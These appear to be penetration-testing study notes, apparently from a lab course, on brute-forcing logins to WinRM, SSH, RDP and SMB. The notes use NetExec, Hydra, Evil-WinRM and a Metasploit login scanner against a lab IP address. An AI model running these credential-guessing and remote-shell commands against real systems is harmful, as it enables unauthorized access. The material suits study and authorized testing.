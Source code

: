 Services include (but are not limited to) `FTP`, `SMB`, `NFS`, `IMAP/POP3`, `SSH`, `MySQL/MSSQL`, `RDP`, `WinRM`, `VNC`, `Telnet`, `SMTP`, and `LDAP`.


## WinRM

Port TCP : HTTP:`5985`
			HTTPS : `5986`


#### NetExec


1. Protocol Specific Help 
```sh
 netexec smb -h
```

#### Usage

```shell
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```sh
netexec winrm 10.129.42.197 -u user.list -p password.list
```


#### Evil-WinRM (interaction to the winRm)

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.


## SSH

```shell-session
 hydra -L user.list -P password.list ssh://10.129.42.197
```

## Remote Desktop Protocol (RDP)

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```


## SMB

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```


However, we may also get the following error describing that the server has sent an invalid reply.
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
netexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Msf Module
```shell-session
msf6 auxiliary(scanner/smb/smb_login) > options 
```



